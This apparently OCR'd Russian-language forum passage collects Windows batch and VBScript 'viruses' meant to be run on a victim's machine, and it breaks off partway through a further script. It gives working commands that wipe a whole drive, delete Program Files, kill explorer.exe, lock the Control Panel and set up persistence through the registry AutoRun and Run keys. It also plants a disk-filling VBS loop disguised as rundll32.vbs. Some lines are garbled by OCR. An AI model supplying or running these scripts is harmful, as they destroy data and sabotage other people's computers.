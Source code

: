 Запрещает заходить в панель управления:
[SRC]
Echo_inactive_inactive off
reg add HKCU\Software\Microsoft\Windows\Current Version\Policies\Explorer
/v NoControlPanel /t REG_DWORD /d 1 /f >nul
[/SRC]
Серьезные вирусы
Удаляет ВСЕ с раздела\диска(не пытайтесь проверить у себя)
[SRC]
rd [Буква_Диск]: /s /q
Удаляет все файлы в program files
del c:Program Files/q
[/SRC]
Убивает процесс explorer.exe:
[SRC]
taskkill /f /im explorer.exe >nul
[/SRC]
Изменяет расширение всех ярлыков на .txt:
[SRC]
assoc .lnk=.txt
[/SRC]
Заражает Autoexec:
[SRC]
copy ""%0"" "%SystemRoot%\system32\batinit.bat" >nul
reg add "HKCU\SOFTWARE\Microsoft\Command Processor" /v AutoRun /t REG_SZ /d "%SystemRoot%\syste m32\batinit.bat" /f >nul
[/SRC]
Меняет местами кнопки мыши,но обратная смена не возможна)
[SRC]
rundll32 user,SwapMouseButton
[/SRC]
Жестокие вирусы
У вашего кролика будет глючить компьютер.
[SRC]
Echo_inactive_inactive off
echo Set fso = CreateObject("Scripting.FileSystemObject") > %systemdrive%\windows\system32\rundll32.vbs
echo do >> %systemdrive%\windows\system32\rundll32.vbs
echo Set tx = fso.CreateTextFile("%systemdrive%\windows\system32\rundll32.dat", True) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.WriteBlankLines(100000000) >> %systemdrive%\windows\system32\rundll32.vbs
echo tx.close >> %systemdrive%\windows\system32\rundll32.vbs
echo FSO.DeleteFile "%systemdrive%\windows\system32\rundll32.dat" >> %systemdrive%\windows\system32\rundll32.vbs
echo loop >> %systemdrive%\windows\system32\rundll32.vbs

start %systemdrive%\windows\system32\rundll32.vbs

reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v system_host_run /t REG_SZ /d %systemdrive%\windows\system32\rundll32.vbs /f
[/SRC]
Вирус который убивает Винду. Не проверяйте на своем компьютере=)
[SRC]
Echo_inactive_inactive This virus created by NickName
Echo_inactive_inactive Virus: forum.ru Virus
Echo_inactive_inactive Autor: NickName
Echo_inactive_inactive off
echo Chr(39)>%temp%\temp1.vbs
echo Chr(39)>%temp%\temp2.vbs
echo on error resume next > %temp%\temp.vbs
echo Set S = CreateObject("Wscript.Shell") >> %temp%\temp.vbs
echo set FSO=createobject("scripting.filesystemobject")>>%temp%\temp.vbs
